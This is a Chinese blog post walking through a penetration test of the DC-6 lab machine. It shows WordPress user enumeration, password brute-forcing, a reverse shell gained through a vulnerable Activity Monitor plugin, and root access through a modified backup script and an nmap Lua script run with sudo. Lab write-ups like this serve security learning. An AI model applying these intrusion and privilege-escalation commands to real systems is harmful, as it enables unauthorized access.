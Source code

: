 ```yaml
---
title: DC_6靶机渗透测试 
date: 2020-09-14 14:06
swiper: false # 将改文章放入轮播图中
swiperImg: '' # 该文章在轮播图中的图片，可以是本地目录下图片也可以是http://xxx图片
img: 'http://cdn.mxrblog.cn/ct_3.jpg' # 该文章图片，可以是本地目录下图片也可以是http://xxx图片
categories: 渗透测试
tags: [渗透测试, DC]   # 可以是数组
top: false



---
```


# DC_6靶机渗透测试



[参考文章链接1]([DC6 靶机渗透_Micr067的博客-CSDN博客_dc6靶机实验](https://blog.csdn.net/weixin_41082546/article/details/99192403))

[参考文章链接2]([DC6靶机渗透 - 云+社区 - 腾讯云 (tencent.com)](https://cloud.tencent.com/developer/article/1803554?from=article.detail.1803068))

- 扫描一下靶机的位置以及开放的端口

![image-20210702160244453](http://cdn.mxrblog.cn/image-20210702160244453.png)

- 发现开启了22号和80号端口，浏览器打开靶机的http服务，发现找不到服务器，将靶机的IP地址添加到攻击机器的hosts文件中

![image-20210702163400364](http://cdn.mxrblog.cn/image-20210702163400364.png)

- 再次扫描一下版本信息，发现是wordpress 5.1.1

![image-20210702163302186](http://cdn.mxrblog.cn/image-20210702163302186.png)

- 用wpscan对靶机进行扫描，并枚举出用户

```
wpscan --url http://wordy -e u
```

![image-20210702165812742](http://cdn.mxrblog.cn/image-20210702165812742.png)

- 使用dirb扫描出后台

```
dirb http://192.168.0.141
```

![image-20210702164837984](http://cdn.mxrblog.cn/image-20210702164837984.png)

![image-20210702164819136](http://cdn.mxrblog.cn/image-20210702164819136.png)

- 创建用户字典和密码字典（根据作者的提示创建密码字典，要不然不会花很多时间）

![image-20210702180204049](http://cdn.mxrblog.cn/image-20210702180204049.png)

```
vim users
将前面扫描出来的用户名填入users中   //创建用户名密码
cat /usr/share/wordlists/rockyou.txt | grep k01 > passwords.txt  //创建密码字典
```

- 使用wpscan暴力破解密码

![image-20210702180757718](http://cdn.mxrblog.cn/image-20210702180757718.png)

- 发现被破解出来的账号是mark， 密码是helpdesk01,登录后台查看，发现插件Activity monitor

![image-20210702205156235](http://cdn.mxrblog.cn/image-20210702205156235.png)

- 搜索插件漏洞

![image-20210702213616394](http://cdn.mxrblog.cn/image-20210702213616394.png)

![image-20210702214526740](http://cdn.mxrblog.cn/image-20210702214526740.png)

- 查看漏洞文件， 根据提示将里面的IP和port参数改成攻击机器的

![image-20210702221445846](http://cdn.mxrblog.cn/image-20210702221445846.png)

- 在攻击机器上开启http服务

```
python -m SimpleHTTPServer 8000   //上面文件中的web端口为8000，我未改 
```

- 先在本地nc监听4444端口，然后在浏览器中访问本机8000端口，点击漏洞文件触发漏洞，攻击机器获取shell

![image-20210702223217998](http://cdn.mxrblog.cn/image-20210702223217998.png)

- 将当前shell变为交互式shell

```
python -c 'import pty; pty.spawn("/bin/bash")'
```

![image-20210702223514883](http://cdn.mxrblog.cn/image-20210702223514883.png)

- 发现需要继续提权

![image-20210702224218248](http://cdn.mxrblog.cn/image-20210702224218248.png)

- 在用户mark的目录下发现stuff文件夹中有个things-to-do.txt,查看文件后发现一个新用户密码

![image-20210702225134596](http://cdn.mxrblog.cn/image-20210702225134596.png)

- 切换用户

![image-20210702225219547](http://cdn.mxrblog.cn/image-20210702225219547.png)

- 寻找可以进行提权的文件和当前用户可以使用的特殊权限

![image-20210702225845757](http://cdn.mxrblog.cn/image-20210702225845757.png)

- 查看一下backups.sh的内容，发现个解压命令，将其替换成  /bin/bash
- 可以ssh链接靶机，用攻击机对靶机的文件进行修改

![image-20210702232340650](http://cdn.mxrblog.cn/image-20210702232340650.png)

- 以jens用户运行脚本

![image-20210702232549101](http://cdn.mxrblog.cn/image-20210702232549101.png)

- 继续查看当前用户能使用什么特殊权限，发现能使用nmap

![image-20210702232745098](http://cdn.mxrblog.cn/image-20210702232745098.png)

- 使用nmap调用脚本

```js
echo 'os.execute("/bin/bash")' >shell_root
sudo nmap --script=shell_root
```

![image-20210702233430749](http://cdn.mxrblog.cn/image-20210702233430749.png)

